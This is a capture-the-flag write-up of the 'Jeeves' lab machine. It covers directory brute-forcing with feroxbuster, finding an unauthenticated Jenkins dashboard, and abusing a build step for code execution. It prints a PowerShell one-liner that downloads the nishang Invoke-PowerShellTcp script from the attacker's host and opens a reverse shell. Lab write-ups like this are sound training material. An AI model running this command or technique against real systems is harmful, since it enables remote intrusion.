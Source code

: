 ```bash

## Command

┌──(root㉿n0m4d)-[/host_data]
└─# feroxbuster -u http://10.10.10.63:50000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt

## Results after some cleanup

http://10.10.10.63:50000/askjeeves => http://10.10.10.63:50000/askjeeves/
http://10.10.10.63:50000/askjeeves/security => http://10.10.10.63:50000/askjeeves/security/
http://10.10.10.63:50000/askjeeves/about => http://10.10.10.63:50000/askjeeves/about/
http://10.10.10.63:50000/askjeeves/search => http://10.10.10.63:50000/askjeeves/search/
http://10.10.10.63:50000/askjeeves/projects => http://10.10.10.63:50000/askjeeves/projects/
http://10.10.10.63:50000/askjeeves/people => http://10.10.10.63:50000/askjeeves/people/
http://10.10.10.63:50000/askjeeves/signup
http://10.10.10.63:50000/askjeeves/version => http://10.10.10.63:50000/askjeeves/version/
http://10.10.10.63:50000/askjeeves/main
http://10.10.10.63:50000/askjeeves/assets => http://10.10.10.63:50000/askjeeves/assets/
http://10.10.10.63:50000/askjeeves/search/index
http://10.10.10.63:50000/askjeeves/api => http://10.10.10.63:50000/askjeeves/api/
http://10.10.10.63:50000/askjeeves/api/search => http://10.10.10.63:50000/askjeeves/api/search/
http://10.10.10.63:50000/askjeeves/people/users => http://10.10.10.63:50000/askjeeves/people/users/

```

This brought me to a Jenkins dashboard that didn't have a password. So basically anyone who had the link could get there. Initially I started looking for the version in case there was a vulnerability I could exploit, and some time later I discovered that it wasn't that deep.

## Exploit

I created a new project, and set it to run a batch command on build. The idea was that if I could execute the code to get a reverse shell, I'd get into the system that this instance of Jenkins was hosted on. 

This is where the following script came in handy. Its basically telling the service to open powershell on build, and run a command to download the `Invoke-PowerShellTCP.ps1` script from a python http server on my host, then use it to initiate a reverse shell to my attacking host that is listening via netcat.

```powershell

powershell.exe iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:433/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 4433

```

Initially, I tried download the nishang Invoke-PowerShellTCP script from its raw file on github, but this errored out. So I downloaded it onto my host, and spun up a python http server. On a separate terminal session I had netcat listening in for a connection. *Made the mistake of using double quotes with this, and that does not work.*
